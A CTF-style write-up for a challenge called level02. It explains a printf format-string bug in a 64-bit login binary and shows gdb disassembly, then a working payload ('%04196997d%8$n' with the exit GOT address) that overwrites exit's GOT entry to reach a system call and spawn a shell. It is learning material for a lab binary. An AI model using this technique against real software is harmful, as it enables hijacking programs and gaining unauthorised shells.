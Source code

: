 ## Got some printf left ? (level02)

Here, with this [binary](source.c), we have a pseudo login prompt again. After
checking the lengths of the buffers and the `fgets` calls, we do not have a
sufficient overflow to do anything useful. So the part we need to exploit is at
the end of the program. It's when it is printing back our username to us through
a very dumb `printf` on _username_.

> This is the first 64-bit binary to exploit. This changes a few things, but not
> much.

We will execute a
[got overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) exploit.

To do this we need the `exit`'s got address (not puts, because I want the string
saying that I dont have access to print before I effectively do get access, for
fun):

```shell
# run gdb on the binary
gdb ./level02
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x0000000000400710 <+0>:     jmpq   *0x200b12(%rip)        # 0x601228 <exit@got.plt>
   0x0000000000400716 <+6>:     pushq  $0xa
   0x000000000040071b <+11>:    jmpq   0x400660
End of assembler dump.
```

Then we must find a way to get a shell. The `system` function is actually called
in the binary but it is within an unreachable condition. All we have to do then
is to set `exit`'s got address to the place where `system` is called:

```shell
(gdb) disass main
   0x0000000000400a80 <+620>:   callq  0x4006c0 <printf@plt>
   0x0000000000400a85 <+625>:   mov    $0x400d32,%edi
   0x0000000000400a8a <+630>:   callq  0x4006b0 <system@plt>
```

We're gonna use the address of the instruction just above system since it loads
its argument into the appropriate register. 0x400a85 = 4196997 in base 10, which 
is the value we want to write at `exit`'s got address. So this is going to be
our field width to set the number of bytes written by printf. Then can pass the
address we want to write to as an argument to n. This will be the last thing on
the stack at the moment `printf` is called which will be the start of the
_password_ buffer. So we pass `exit`'s got address as a password.

```shell
(echo '%04196997d%8$n'; python -c 'print "\x60\x12\x28"[::-1]'; cat) | ./level02
```

Also here we go look for the 8th argument for the n conversion because this
where the password buffer starts.
